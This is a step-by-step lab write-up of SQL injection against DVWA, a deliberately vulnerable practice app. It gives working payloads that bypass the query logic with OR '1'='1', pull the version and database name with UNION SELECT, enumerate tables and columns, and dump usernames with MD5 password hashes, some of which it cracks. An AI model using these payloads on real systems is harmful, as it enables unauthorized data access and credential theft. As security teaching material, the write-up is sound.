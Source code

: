 # Simulation 2 – SQL Injection on DVWA (Detailed Walkthrough & Explanation)

This simulation focuses on exploiting an SQL Injection vulnerability in the DVWA (Damn Vulnerable Web Application), a deliberately insecure web app used for learning web security. The objective was to understand how SQL Injection works, what kind of data an attacker can extract through it, and why it's a critical vulnerability. Throughout this simulation, we explored both the theory and the practical exploitation of a vulnerable SQL query.

---

We begin with a simple input box in DVWA under the `SQL Injection` module, which takes a user ID and fetches a user's details. Internally, the code likely runs a query such as:

```sql
SELECT first_name, surname FROM users WHERE user_id = '$id';
```

This means whatever we input in the field gets embedded directly into the SQL query. If we input `1`, the query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1';
```

Which works as expected.

---

## SQL Injection Exploitation Begins

### 1. Bypass Logic with Boolean Injection

```plaintext
1' OR '1'='1'#
```

This payload closes the existing quote, inserts a condition that is always true (`'1'='1'`), and then comments out the rest using `#`. The query becomes:

```sql
SELECT first_name, surname FROM users WHERE user_id = '1' OR '1'='1' #';
```

**Result:** All rows from the `users` table are returned. This proves the site is vulnerable to SQL injection.

![Proves that SQL Injection is possible](../../screenshots/attack-simulation-2/all%20values.png)

*Figure 1: proof that the site is vulnerable to SQL injection*

---

### 2. Extract Database Version with UNION

```plaintext
1' UNION SELECT null, version()-- -
```

The `UNION SELECT` statement is used to join results from another query. Since the original query returns two columns (`first_name`, `surname`), we match that structure. `null` fills the first column, and `version()` fetches MySQL's current version.

**Result:**
```
Surname: 8.0.42-0ubuntu0.24.04.1
```

![Version Number](../../screenshots/attack-simulation-2/version.png)

*Figure 2: Version of MySQL*

This reveals the MySQL version in use.

---

### 3. Identify the Current Database Name

```plaintext
1' UNION SELECT null, database()-- -
```

This uses the MySQL function `database()` to retrieve the current DB's name.

**Result:**
```
Surname: dvwa
```

![Database Name](../../screenshots/attack-simulation-2/database.png)

*Figure 3: Database Name*

---

### 4. Enumerate Tables in the `dvwa` Database

Once we know the name of the current database (in this case, `dvwa`), the next step is to discover what tables exist inside it. In MySQL, this information is stored in a special system database called `information_schema`.

To list tables, we target the `information_schema.tables` table, and filter it using:

```sql
WHERE table_schema = 'dvwa'
```

This ensures we’re only seeing tables inside the DVWA database.

However, we can't just run `SELECT *` because the page we're injecting into only displays a **single record** at a time. So instead, we use the `LIMIT` clause to fetch one table at a time by its position (offset).

Here’s the full injection payload:

```plaintext
1' UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema='dvwa' LIMIT 0,1-- -
```

Once we get the first table name, we increment the `LIMIT` offset to get the next ones:

```plaintext
LIMIT 1,1
LIMIT 2,1
```

**Result:**
- First result: `guestbook`
- Second result: `users`

This method is called **manual enumeration**, and is often used when:
- The web app doesn’t show lists directly
- We're working without automated tools like `sqlmap`

This process is slow but gives you full control and deep understanding of the SQL injection’s inner workings.

![Table Name](../../screenshots/attack-simulation-2/Tablename.png)

*Figure 4: Table Name*

---

### 5. Enumerate Columns in the `users` Table

Next, we list all column names by querying `information_schema.columns`.

```plaintext
1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1-- -
```

And again, increase the `LIMIT` value to paginate:
```plaintext
LIMIT 1,1
LIMIT 2,1
```

![Column Name](../../screenshots/attack-simulation-2/Column%20Names.png)

*Figure 5: Column Name*

**Discovered Columns:**
- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

---

### 6. Extract Credentials from `users` Table

Finally, now that we know the column names, we dump actual data using:

```plaintext
1' UNION SELECT user, password FROM users-- -
```

**Extracted Results:**

| Username | Password Hash |
|----------|----------------|
| admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb  | e99a18c428cb38d5f260853678922e03 |
| 1337     | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo    | 0d107d09f5bbe40cade3de5c71e9b07 |
| smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |

![Credentials](../../screenshots/attack-simulation-2/Credentials.png)

*Figure 5: Credentials*

These are MD5 hashes. Some common reversals:
- `5f4dcc...` → `password`
- `e99a18...` → `abc123`
- `0d107d...` → `letmein`

---

## Key Terms and Concepts Explained

- **SQL Injection**: A vulnerability where attacker-controlled input is interpreted as SQL code.
- **UNION SELECT**: Combines results from multiple queries. Needs column count and data types to match.
- **information_schema**: A system database in MySQL that contains metadata about databases, tables, and columns.
- **LIMIT offset,count**: Used to fetch specific rows for enumeration.
- **MD5 Hash**: A cryptographic hash commonly used for passwords. Insecure and crackable.

---

## Summary

This simulation demonstrated the full SQL Injection lifecycle:
1. Discovering injection points
2. Bypassing logic with `OR '1'='1'`
3. Using UNION SELECT to exfiltrate:
   - Database version
   - Database name
   - Table names
   - Column names
   - Actual credential data
4. Interpreting hashes for credential reuse

The exercise shows how even a single vulnerable input can lead to total data leakage if queries are not properly sanitized. In real-world systems, this would be a catastrophic breach of confidentiality.